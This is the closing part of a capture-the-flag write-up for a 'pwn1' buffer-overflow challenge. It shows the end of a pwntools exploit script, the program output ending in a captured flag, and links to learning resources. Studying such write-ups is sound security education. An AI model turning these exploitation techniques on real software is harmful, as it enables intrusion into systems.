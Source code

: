 ```

print(p.sendline(exploitToSend))

#receive whatever the program sends us after we send our exploit input!!
print(p.recv())
print(p.recv())
```

```
python exploit.py

[+] Starting local process './pwn1': pid 6972
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
None

What... is your quest?
None

What... is my secret?
None


[*] Process './pwn1' stopped with exit code 0 (pid 6972)
Right. Off you go.
flag{you_got_the_flag!}

```

Yee, we got the flag!!!!!!!!!

I hope you enjoyed this writeup, and to really understand this problem, make sure you can do it on your own without the help of a writeup. It personally took me a while, but don't give up!

## Some handy resources to feed your brain  
- [Super awesome radare tutorial that I always refer to](https://www.megabeets.net/a-journey-into-radare-2-part-1/)
- [Buffer overflow attacks explained](https://www.coengoedegebure.com/buffer-overflow-attacks-explained/)
- [Why the stack grows down](https://gist.github.com/cpq/8598782)
- [The 32 bit x86 C Calling Convention](https://aaronbloomfield.github.io/pdr/book/x86-32bit-ccc-chapter.pdf)
